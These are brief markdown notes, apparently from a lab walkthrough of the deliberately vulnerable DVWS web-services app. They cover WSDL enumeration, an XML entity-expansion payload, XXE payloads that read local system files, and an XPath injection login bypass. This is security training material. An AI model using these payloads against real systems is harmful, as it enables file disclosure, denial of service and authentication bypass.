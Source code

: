 ### WSDL Enumeration
URL: dvws/vulnerabilities/wsdlenum/service.php?wsdl

check_user_id with value root

### WSDL Scanning 
* Load the check_user_information envelope into Intruder
* select username space 
* add username lists to payload


### XML External Entity Injection
URL : /dvws/vulnerabilities/xxe/

[XML Entity Expansion]

```
<!DOCTYPE foo [<!ENTITY xee1 "hacking web apps is fun "><!ENTITY xee2 "&xee1;&xee1;"><!ENTITY xee3 "&xee2;&xee2;"><!ENTITY xee4 "&xee3;&xee3;">]><name>&xee4;</name>
```


[XXE]

name=<?xml version="1.0"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///tmp/passwd">]>
<test>&xxe;</test>
 
 
name=<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]><test>&xxe;</test>


### XPATH Injection
URL: /dvws/vulnerabilities/xpath/xpath.php 
* username: foo' or 1=1 or 'a'='a 
* password: bar


